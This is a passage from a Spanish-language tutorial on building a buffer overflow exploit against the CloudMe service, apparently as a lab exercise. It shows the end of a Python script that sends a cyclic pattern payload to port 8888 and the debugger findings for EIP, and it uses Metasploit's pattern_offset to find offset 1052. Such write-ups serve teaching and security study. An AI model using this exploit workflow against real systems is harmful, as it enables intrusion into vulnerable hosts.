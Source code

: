 ```python
    f3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk
    5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7
    Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9D
    v0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea
    2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4
    Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6E
    k7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep
    9Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1
    Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3F
    a4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff
    6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8
    Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp9Fq0F
    q1Fq2Fq3Fq4Fq5Fq6Fq7Fq8Fq9Fr0Fr1Fr2Fr3Fr4Fr5Fr6Fr7Fr8Fr9Fs0Fs1Fs2Fs3Fs4Fs5Fs6Fs7Fs8Fs9Ft0Ft1Ft2Ft3Ft4Ft5Ft6Ft7Ft8Ft9Fu0Fu1Fu2Fu3Fu4Fu5Fu6Fu7Fu8Fu9Fv0Fv1Fv2Fv
    3Fv4Fv5Fv6Fv7Fv8Fv9Fw0Fw1Fw2Fw3Fw4Fw5Fw6Fw7Fw8Fw9Fx0Fx1Fx2Fx3Fx4Fx5Fx6Fx7Fx8Fx9Fy0Fy1Fy2Fy3Fy4Fy5Fy6Fy7Fy8Fy9Fz0Fz1Fz2Fz3Fz4Fz5Fz6Fz7Fz8Fz9Ga0Ga1Ga2Ga3Ga4Ga5
    Ga6Ga7Ga8Ga9Gb0Gb1Gb2Gb3Gb4Gb5Gb6Gb7Gb8Gb9Gc0Gc1Gc2Gc3Gc4Gc5Gc6Gc7Gc8Gc9Gd0Gd1Gd2Gd3Gd4Gd5Gd6Gd7Gd8Gd9Ge0Ge1Ge2Ge3Ge4Ge5Ge6Ge7Ge8Ge9Gf0Gf1Gf2Gf3Gf4Gf5Gf6Gf7G
    f8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```

Una vez mas tenemos que lanzar el CloudMe porque previamente a petado. Tambien tenemos nuevamente que attachear al Immunity Debugger el servicio CloudMe.
Lanzamos el script y vemos que el valor del EIP vale `316A4230`

Con la herramienta `pattern_offset` podemos comprovar cuantas **A** tengo que meter antes de sobre escribir la EIP

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 316A4230

#Output
[*] Exact match at offset 1052
```
